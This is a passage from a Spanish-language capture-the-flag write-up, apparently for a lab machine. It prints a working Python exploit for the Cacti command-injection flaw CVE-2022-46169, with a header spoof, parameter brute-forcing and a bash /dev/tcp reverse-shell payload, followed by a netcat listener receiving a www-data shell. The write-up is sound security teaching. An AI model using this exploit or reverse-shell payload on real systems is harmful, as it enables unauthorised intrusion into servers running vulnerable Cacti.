 
> Cuarta parte

Se define de nuevo una función que se utiliza para explotar la vulnerabilidad RCE en la URL mediante la inyección de una reverse shell en la URL, y utiliza una función de fuerza bruta para encontrar los valores adecuados para `host_id` y `data_ids`.

```python
def Reverse_shell(payload, host_id, data_ids):
    PayloadEncoded = urllib.parse.quote(payload)
    InjectRequest = f"{Vuln_url}?action=polldata&poller_id=;{PayloadEncoded}&host_id={host_id}&local_data_ids[]={data_ids}"
    r = requests.get(InjectRequest, headers=headers)


if __name__ == '__main__':
    options = get_arguments()
    Vuln_url = options.url_target + '/remote_agent.php'
    headers = {"X-Forwarded-For": "127.0.0.1"}
    print('Checking...')
    if checkVuln():
        print("The target is vulnerable. Exploiting...")
        print("Bruteforcing the host_id and local_data_ids")
        is_vuln, host_id, data_ids = bruteForcing()
        myip = options.lhost
        myport = options.lport
        payload = f"bash -c 'bash -i >& /dev/tcp/{myip}/{myport} 0>&1'"
        if is_vuln:
            Reverse_shell(payload, host_id, data_ids)
        else:
            print("The Bruteforce Failled...")

    else:
        print("The target is not vulnerable")
        sys.exit(1)
```

Ahora que ya sabemos más o menos como funciona el exploit, lo lanzamos, pero antes de nada nos abrimos un oyente de netcat en el puerto 443.

```bash
❯ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.23 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

```bash
❯ sudo nc -lnvp 443
[sudo] password for elc4br4: 
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.211] 41844
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
